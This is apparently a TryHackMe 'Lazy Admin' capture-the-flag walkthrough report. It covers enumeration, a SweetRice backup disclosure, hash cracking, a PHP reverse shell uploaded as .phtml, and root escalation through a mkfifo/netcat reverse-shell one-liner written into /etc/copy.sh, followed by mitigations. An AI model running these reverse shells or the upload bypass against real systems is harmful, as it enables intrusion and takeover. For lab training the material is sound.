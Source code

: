 # Lazy Admin – TryHackMe VAPT Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 27, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation & Privilege Escalation  
**Platform:** TryHackMe (THM)

---

## Part 1: User Flag

### 1. Reconnaissance & Initial Scanning

**Objective:** Identify all open ports and services running on the target system.

- **Command Used:**
  ```bash
  nmap -Pn -sC -sV -oN lazyadmin.nmap <target_ip>
  ```
- **Key Output:**
  ```bash
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 (Ubuntu)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  ```
- **Analysis:** SSH and HTTP are available; the web server runs default Apache.

### 2. Web Enumeration

- Checked http://<target_ip>:80 in a browser:
  - Found Ubuntu Apache2 default page (no obvious custom content).
- **Used Gobuster for hidden directories:**
  ```bash
  gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
  - Discovered `/content` (redirect); `/server-status` (403 forbidden).

### 3. Deeper Enumeration of `/content` Directory

```bash
gobuster dir -u http://<target_ip>/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
- Found several subdirectories: `/images`, `/js`, `/inc`, `/as`, `/attachment`, `/_themes` (all redirect).
- Some scan errors (timeouts) indicated more content may exist.

### 4. Identifying the CMS

- Navigated to `/content` and found **SweetRice CMS** (vulnerable CMS).

### 5. Vulnerability Research

- Searched Exploit-DB for "SweetRice" vulnerabilities.
- Found **SweetRice 1.5.1 Backup Disclosure** (EDB-ID: 40718):
  - Direct access to backups at `/inc/mysql_backup/` and full site download via `/SweetRice-transfer.zip`.

### 6. Exploiting Backup Disclosure

- **Navigated:** 
  ```
  http://<target_ip>/content/inc/mysql_backup
  ```
- **Successfully found:** `mysql_backup_20191129023059-1.5.1.sql`.

- **Downloaded SQL backup:**
  ```bash
  wget http://<target_ip>/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
  ```
- **Inspected backup:**
  ```bash
  cat mysql_backup_20191129023059-1.5.1.sql
  ```
  - Found an MD5 hash for the manager/admin password:
    ```
    "42f749ade7f9e195bf475f37a44cafb"
    ```

### 7. Crack the Manager Password

- **Used CrackStation:**  
    ```
    Input hash: 42f749ade7f9e195bf475f37a44cafcb
    Output: Password123
    ```
- **Obtained credentials:**  
    - Username: `manager`
    - Password: `Password123`

### 8. Logging into SweetRice Admin Panel

- Navigated to the admin login page at `/content/as`
- Used credentials `"manager:Password123"` to access the admin area.

### 9. Uploading a PHP Reverse Shell

- **Downloaded reverse shell script:**  
    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    ```
- **Modified reverse shell:**
    - Set `$ip` to attacker's IP
    - Set `$port` to listening port
    - Renamed for bypass:
      ```bash
      mv php-reverse-shell.php shell.phtml
      ```
- **Uploaded shell in the admin panel "Media Center".**

- **Started netcat listener:**
    ```bash
    nc -lvnp <attack_port>
    ```
- **Triggered the uploaded shell by visiting its URL.**

### 10. Getting an Interactive Shell & Finding the User Flag

- **Upgraded shell:**
    ```python
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- **Navigated:**
    - `cd /home`
    - `ls`
    - Found `itguy` user directory.

- **User Flag:**
    ```python
    cat /home/itguy/user.txt
    ```
    - **Output:** `THM{63e5bce9271952aad1113b6f1ac28a07}`

---

## Part 2: Root Flag (Privilege Escalation)

### 11. Sudo Privileges Enumeration

- **Checked sudo rights:**
    ```bash
    sudo -l
    ```
    - **Finding:** The user `www-data` can execute `/usr/bin/perl /home/itguy/backup.pl` as root.

### 12. Analyze Perl Script for Escalation Path

- **Read script:**  
    ```bash
    cat /home/itguy/backup.pl
    ```
    - The Perl script executes `/etc/copy.sh`.

- **Inspect `/etc/copy.sh`:**
    ```bash
    cat /etc/copy.sh
    ```
    - The script contains a reverse shell one-liner pointing to a different attacker IP.

### 13. Overwrite `copy.sh` with Own Reverse Shell

- **Write new shell command:**
    ```bash
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <attacker_port> > /tmp/f" > /etc/copy.sh
    ```

- **Start listener on attacker's machine:**
    ```bash
    nc -nvlp <attacker_port>
    ```

- **Trigger escalation:**
    ```bash
    sudo /usr/bin/perl /home/itguy/backup.pl
    ```
    - Reverse root shell obtained.

### 14. Retrieve the Root Flag

- **Get root flag:**
    ```bash
    ls /root
    cat /root/root.txt
    ```
    - **Output:** *(example)* `THM{rootflagcontents}`

---

## Mitigation Recommendations

- **Update/Remove vulnerable CMS software.**  
- **Eliminate backup disclosure:** Store backups outside web directories with proper access controls.
- **Use strong, salted hashes for passwords; avoid MD5.**
- **Restrict admin panel file uploads and validate file types.**
- **Review and restrict sudo command configurations, especially for scripts and interpreters.**
- **Sanitize and log all script interactions and privileged command executions.**

---

## Lessons Learned

- Outdated file management and poor backup hygiene expose credentials and sensitive files.
- Weak password hashing allows trivial brute-force attacks.
- Improper server-side script chaining gives easy privilege escalation routes.
- Web upload restrictions can often be bypassed using alternate file extensions.

---

## Skills Practiced

- Enumeration: nmap, gobuster
- Web Exploitation: directory fuzzing, file disclosure, password cracking
- Command Execution: reverse shell upload/exploit
- Privilege Escalation: abusing root-allowed scripts and overwriting vulnerable bash scripts
```
